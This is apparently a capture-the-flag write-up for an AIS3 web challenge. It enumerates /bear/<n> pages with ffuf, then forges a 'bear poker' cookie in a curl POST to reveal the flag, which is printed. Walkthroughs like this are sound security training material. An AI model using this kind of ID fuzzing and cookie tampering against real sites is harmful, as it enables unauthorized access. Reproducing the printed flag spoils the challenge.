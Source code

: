 1. Different `n` in `/bear/<n>` shows different bear, so we can try to query all the bears.

```
$ ffuf -u http://chals1.ais3.org:8987/bear/FUZZ -w ./bear.txt
$ vim ./fuzz_bear.txt  # copy ffuf output to file

$ grep -v 'Size: 1358 ./fuzz_bear.txt
5                       [Status: 200, Size: 1742, Words: 295, Lines: 42]
29                      [Status: 200, Size: 1743, Words: 295, Lines: 42]
82                      [Status: 200, Size: 1743, Words: 295, Lines: 42]
327                     [Status: 200, Size: 1744, Words: 295, Lines: 42]
350                     [Status: 200, Size: 1740, Words: 295, Lines: 42]
499                     [Status: 200, Size: 1847, Words: 335, Lines: 46]
777                     [Status: 200, Size: 1744, Words: 295, Lines: 42]
999                     [Status: 200, Size: 1744, Words: 295, Lines: 42]

$ curl http://chals1.ais3.org:8987/bear/499  # 499 is the SECRET BEAR
Hello human, you need to be a "bear poker" to poke the SECRET BEAR.
```

2. We need to be a `bear poker`. Looks like it's refering to the cookie.

```
$ curl http://chals1.ais3.org:8987/poke -H 'Cookie: human=bear poker' -d 'bear _id=499' -H 'Content-Type: application/x-www-form-urlencoded'
<script>alert(`AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`); location='/'</script>
```

Flag: `AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`
